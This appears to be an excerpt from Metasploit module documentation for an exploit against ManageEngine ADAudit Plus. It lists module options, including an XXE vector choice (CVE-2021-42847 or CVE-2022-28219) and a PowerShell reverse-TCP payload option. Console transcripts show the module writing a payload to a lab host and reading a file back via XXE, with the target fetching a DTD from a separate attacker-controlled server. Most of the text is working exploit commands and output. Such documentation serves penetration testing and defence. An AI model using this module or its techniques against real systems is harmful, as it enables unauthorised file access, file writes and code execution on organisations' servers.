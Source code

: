 ```
   SSLCert                                   no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI         /                       yes       The base path to ManageEngine ADAudit Plus
   URIPATH                                   no        The URI to use for this exploit (default is random)
   USE_MSF_PAYLOAD   false                   no        Use the cmd/windows/powershell_reverse_tcp payload for WRITE_FILE and OVERWRITE_ALERT_SCRIPT.
   VHOST                                     no        HTTP server virtual host
   XXE_VECTOR        CVE-2021-42847          no        XXE vector for obtaining file contents/directory listings (CVE-2022-28219 or CVE-2021-42847)


Auxiliary action:

   Name        Description
   ----        -----------
   WRITE_FILE  Write a JSON-compatible (UTF-8) payload to a file specified via FILE_OR_DIR_PATH


msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > run
[*] Running module against 192.168.91.250

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The vulnerable endpoint /api/agent/tabs/agentGPOWatcherData is available and responds with HTTP/200
[*] Attempting to write the payload to 
[+] Successfully uploaded the payload
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > set action READ_FILE_OR_DIR 
action => READ_FILE_OR_DIR
msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > run
[*] Running module against 192.168.91.250

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The vulnerable endpoint /api/agent/tabs/agentGPOWatcherData is available and responds with HTTP/200
[*] Getting contents for /users/karen/pwned.txt via XXE and FTP
[*] Using URL: http://192.168.91.195:8080/IaLexyrHsSlcg.dtd
[+] Received the following contents for /users/karen/pwned.txt:
wynter was here
[*] Server stopped.
[*] Auxiliary module execution completed

```

### ManageEngine ADAudit Plus build 7005 running on Windows Server 2012 R2 - LIST_ALERT_SCRIPTS
```
msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > options 

Module options (auxiliary/admin/http/manageengine_adaudit_plus_file_read_write):

   Name              Current Setting   Required  Description
   ----              ---------------   --------  -----------
   ALERT_SCRIPT                        no        Name of an existing PowerShell script in /alert_scripts to overwrite when using OVERWRITE_ALERT_SCRIPT
   CUSTOM_PAYLOAD                      no        Custom payload to use for WRITE_FILE and OVERWRITE_ALERT_SCRIPT. Ignored if USE_MSF_PAYLOAD is true
   DOMAIN                              no        Active Directory domain that the target monitors, Required if XXE VECTOR is CVE-2022-28219
   FILE_OR_DIR_PATH  /windows/win.ini  no        Path to read or write to. For read operations this should contain forward slashes and exclude the drive
```